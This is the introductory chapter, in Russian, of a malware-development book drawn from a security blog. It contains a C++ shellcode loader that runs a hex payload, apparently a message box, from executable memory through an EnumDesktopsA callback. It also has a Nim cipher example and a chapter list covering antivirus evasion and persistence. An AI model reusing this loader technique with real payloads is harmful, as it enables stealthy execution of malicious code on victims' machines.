 \newpage
\subsection{2. что такое разработка вредоносного ПО?}
\label{2. что такое разработка вредоносного ПО?}

﷽

Будь вы специалистом Red Team или Blue Team, изучение техник и приемов разработки вредоносного ПО дает вам наиболее полное представление о продвинутых атаках. Кроме того, большинство классических вредоносных программ обычно пишутся под Windows, что дает вам практические знания в области разработки под Windows.

Большинство руководств в этой книге требуют глубокого понимания языков программирования `Python` и `C/C++`:

```cpp
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

int main() {
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);
  return 0;
}
```

Иногда нам нужно понимать код на языке программирования Nim:

```python
import strutils

proc caesar(s: string, k: int, decode = false): string =
  var k = if decode: 26 - k else: k
  result = ""
  for i in toUpper(s):
    if ord(i) >= 65 and ord(i) <= 90:
      result.add(chr((ord(i) - 65 + k) mod 26 + 65))

let msg = "The quick brown fox jumped over the lazy dogs"
echo msg
let enc = caesar(msg, 11)
echo enc
echo caesar(enc, 11, decode = true)
```

Основная логика делит книгу на пять (4 + 1 бонус) глав:
- Трюки и техники разработки вредоносного ПО    
- Методы обхода антивирусов    
- Техники закрепления (persistence техники)    
- Вредоносное ПО, криптография, исследования    
- Введение в разработку вредоносного ПО под Linux    

Весь материал книги основан на постах из моего [блога](https://cocomelonc.github.io/)

Если у вас есть вопросы, вы можете задать их написав на [электронную почту](mailto:cocomelonkz@gmail.com)

Мой репозиторий на Github: [https://github.com/cocomelonc](https://github.com/cocomelonc)
